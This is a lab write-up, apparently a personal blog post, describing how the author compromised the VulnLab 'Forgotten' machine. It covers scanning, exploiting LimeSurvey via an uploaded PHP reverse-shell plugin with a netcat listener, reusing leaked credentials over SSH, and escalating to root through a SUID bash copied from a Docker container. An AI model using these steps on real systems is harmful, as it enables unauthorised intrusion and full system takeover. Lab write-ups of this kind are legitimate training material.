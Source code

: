 ```yaml
---
title: VulnLab -- Forgotten Writeup
date: 2025-03-30 00:00:00 +0800
categories: [linux machine]
tags: [web exploitaion,cve]
image:
    path: images/forgotten-banner.png
---
```

# Forgotten

Hello Friends,

Remo is Back

In this write-up, I’ll walk through how I pwned the **Forgotten** machine from **VulnLab**. From initial enumeration to gaining root access, I’ll explain the key steps, tools, and techniques used to complete the box.

![image.png](../images/forgotten-banner.png)

Let’s start by scanning the machine.

```bash
sudo nmap -sC -sV -sS -O -A -oN scanned.txt -p 22,80 --min-rate=1000 10.10.120.62
```

![image.png](../images/forgotten.png)

now let’s check the website running on port 80.

![image.png](../images/forgotten%201.png)

and we got forbidden so let’s now fuzz for directories.

```bash
feroxbuster --url http://10.10.120.62/
```

![image.png](../images/forgotten%202.png)

we got an endpoint named survey so let’s go to the website and see it

![image.png](../images/forgotten%203.png)

as we see there is a website named LimeSurvey running on the port 80 so let’s search for a public exploit for it.

Now let’s try to install it.

![image.png](../images/forgotten%204.png)

notice that we need a database to complete the installation.

so let’s create a database using a docker container

```bash
sudo docker run --name limesurvey -e MYSQL_ROOT_PASSWORD=remoremo -e MYSQL_DATABASE=limesurvey -e MYSQL_USER=lime -e MYSQL_PASSWORD=remoremo -p 3306:3306 -d mysql:latest
```

![image.png](../images/forgotten%205.png)

now let’s try to connect to the database.

![image.png](../images/forgotten%206.png)

now let’s continue to the next step

![image.png](../images/forgotten%207.png)

now let’s populate the database and set the admin password to remoremo

![image.png](../images/forgotten%208.png)

now let’s login as the administrator

![image.png](../images/forgotten%209.png)

after we got everything ready let’s search for a CVE in limeSurvey

![image.png](../images/forgotten%2010.png)

and we got RCE let’s get it and edit the php reverse shell IP and port

![image.png](../images/forgotten%2011.png)

now let’s make this reverse shell as a zip file

```bash
zip N4s1rl1.zip config.xml revshell.php
```

![image.png](../images/forgotten%2012.png)

now let’s open a listener on our machine

```bash
nc -lvnp 1337
```

![image.png](../images/forgotten%2013.png)

Now let’s run our exploit.

```bash
python3 exploit.py http://10.10.120.62/survey admin remoremo 80
```

![image.png](../images/forgotten%2014.png)

now let’s check our listner

![image.png](../images/forgotten%2015.png)

now let’s type hostname to check the environment 

```bash
hostname
```

![image.png](../images/forgotten%2016.png)

and we are in a docker container so let’s run env

```bash
env
```

![image.png](../images/forgotten%2017.png)

and we found limesurvey password so let’s connect to the user limesvc via ssh 

```bash
ssh limesvc@10.10.120.62
```

![image.png](../images/forgotten%2018.png)

and we broke out of the container now let’s see the user flag.

![image.png](../images/forgotten%2019.png)

Now let’s go back to our container and switch to root.

![image.png](../images/forgotten%2020.png)

now in the container copy the bash and add the SUID binary to it.

```bash
cp /bin/bash .;chmod +s bash
```

![image.png](../images/forgotten%2021.png)

now let’s go back to the main host and list the container files.

```bash
cd /opt/limesurvey ; ls -las
```

![image.png](../images/forgotten%2022.png)

notice that we got a root with the SUID binary set to it so now let’s go and get root assess

```bash
./bash -p
```

![image.png](../images/forgotten%2023.png)

now let’s go to the root directory and list the flag

```bash
cd /root ; ls -las
```

![image.png](../images/forgotten%2024.png)

and I did it we got the root flag!

![image.png](../images/forgotten%2025.png)

That’s it for the **Forgotten** machine! This challenge was a great test of enumeration and exploitation skills. Hope you found the write-up useful.

Remo

CRTE | CRTP | CRTO | eWPTX | eCPPT | eMAPT
